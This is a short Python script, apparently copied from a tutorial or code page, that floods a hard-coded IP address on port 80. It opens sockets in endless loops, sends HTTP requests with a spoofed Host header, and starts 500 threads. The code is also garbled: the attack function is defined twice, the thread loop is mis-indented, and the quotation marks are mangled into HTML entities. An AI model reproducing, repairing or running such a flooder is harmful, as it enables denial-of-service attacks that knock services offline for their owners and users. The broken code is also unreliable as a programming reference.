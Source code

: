 import socket 
import threading
target_ip = '10.0.0.138' 
fake_ip = '182.21.20.32' 
port = 80
def attack(): 
    while True: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
        s.connect((target_ip, port)) 
        s.sendto((&quotGET /&quot + target_ip + &quot HTTP/1.1\r\n&quot).encode('ascii'), (target_ip, port)) 
        s.sendto((&quotHost: &quot + fake_ip + &quot\r\n\r\n&quot).encode('ascii'), (target_ip, port)) 
        s.close()
        for _ in range(500): 
    thread = threading.Thread(target=attack) 
    thread.start()
    attack_num = 0 

def attack(): 
    while True: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
        s.connect((target_ip, port)) 
        s.sendto((&quotGET /&quot + target_ip + &quot HTTP/1.1\r\n&quot).encode('ascii'), (target_ip, port)) 
        s.sendto((&quotHost: &quot + fake_ip + &quot\r\n\r\n&quot).encode('ascii'), (target_ip, port)) 

        global attack_num 
        attack_num += 1 
        print(attack_num) 

        s.close()
        
